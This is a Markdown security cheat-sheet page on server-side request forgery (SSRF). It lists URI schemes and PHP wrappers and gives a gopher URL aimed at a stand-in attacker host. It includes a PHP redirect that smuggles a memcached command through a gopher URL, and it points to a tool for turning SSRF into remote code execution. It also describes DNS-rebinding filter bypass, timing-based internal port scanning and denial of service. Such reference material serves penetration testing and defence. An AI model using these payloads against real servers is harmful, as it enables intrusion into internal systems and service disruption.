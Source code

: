 ```yaml
---
title: "SSRF - Server-side Request Forgery"
description: "Solutions to common problems."
lead: "Solutions to common problems."
date: 2020-11-12T15:22:20+01:00
lastmod: 2020-11-12T15:22:20+01:00
draft: false
images: []
menu:
  docs:
    parent: "help"
weight: 620
toc: true
---
```


## URI Scheme

**URI Scheme Lists:** gopher, tftp, http, https, ldap, ftp, dict, ssh2, file, ogg, expect, imap, smtp, telnet, ...

- [tftp](https://en.wikipedia.org/wiki/Trivial_File_Transfer_Protocol): TFTP is a simple protocol for transferring files, implemented on top of the UDP/IP protocols (default port: 69)
- [dict](https://en.wikipedia.org/wiki/DICT): DICT is a dictionary network protocol, TCP client/server (default port: 2628)

From [PHP Wrappers](https://www.php.net/manual/en/wrappers.php):
- file:// — Accessing local filesystem
- http:// — Accessing HTTP(s) URLs
- ftp:// — Accessing FTP(s) URLs
- php:// — Accessing various I/O streams
- zlib:// — Compression Streams
- data:// — Data (RFC 2397)
- glob:// — Find pathnames matching pattern
- phar:// — PHP Archive
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — Audio streams
- expect:// — Process Interaction Streams

### Gopher protocol

Overview:
- [Gopher URI](https://datatracker.ietf.org/doc/html/rfc4266): `gopher://<host>:<port>/<gopher-path>`
- Example: `gopher://attacker.com:1234/_Hello%0AWorld`
- Default port: 70

SSRF to RCE using [Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/):
- [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus): Generates Gopher payload for exploiting SSRF and gaining RCE, on SSRF vulnerable sites. Supports: MySQL, FastCGI, Memcached, Redis, Zabbix, SMTP.

## Bypass

### TOCTOU

- [Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
- Create a domain that resolve a whitelisted IP address, then the target IP address once the check is bypassed.

### Redirection

```php
<?php header("gopher://localhost:11211/1stats%0aquit"); ?>
```

## Blind SSRF

### Reponse delay scanning

To detect if a port or a host is available, you can send a request to it a hundred times and then calculate the average response time. A small difference in response time between an available or unavailable resource can be detected.

Example:

- 100 requests to `10.10.100.2:8080` divided by 100 = 50ms
- 100 requests to `10.10.100.2:1337` divided by 100 = 200ms

## Exploitation

- [SSRF Attack Surface - Report on Imgur](https://hackerone.com/reports/115748)

## DoS

- Load big file (ex: 10GB)
- Abuse long timeout

